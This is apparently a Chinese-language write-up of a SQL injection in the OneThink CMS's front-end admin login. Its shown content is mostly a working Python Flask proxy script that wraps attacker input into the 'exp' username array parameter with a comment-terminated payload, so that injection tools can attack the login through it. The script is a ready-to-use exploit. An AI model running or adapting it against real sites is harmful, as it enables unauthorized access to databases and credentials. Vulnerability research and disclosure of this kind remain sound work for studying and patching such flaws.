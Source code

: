 首先注入点位置如下图

![15.png](./resource/OneThink前台注入/media/rId42.png)

    # encoding: utf-8
    # sqli-reverse-flask.py
    from flask import Flask,request,jsonify
    import requests


    def remote_login(payload):
        '''
        对服务器发起访问请求
        '''
        burp0_url = "http://one.think:80/index.php?s=/admin/public/login.html"
        burp0_headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; ) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4086.0 Safari/537.36", "Accept": "application/json, text/javascript, */*; q=0.01", "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2", "Accept-Encoding": "gzip, deflate", "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8", "X-Requested-With": "XMLHttpRequest"}
        # )) or 1=1 -- -
        pay = ") =' {} ')-- -".format(payload) # )={payload} ）1 = 1
        print(pay)
        burp0_data = {"act": "verify", "username[0]": 'exp', "username[1]": pay, "password": "", "verify": ""}
        resp = requests.post(burp0_url, headers=burp0_headers, data=burp0_data, verify=False)

        return resp.text

    app = Flask(__name__)
    @app.route('/')
    def login():
        payload =  request.args.get("id")
        print(payload)
        response = remote_login(payload)
        return response
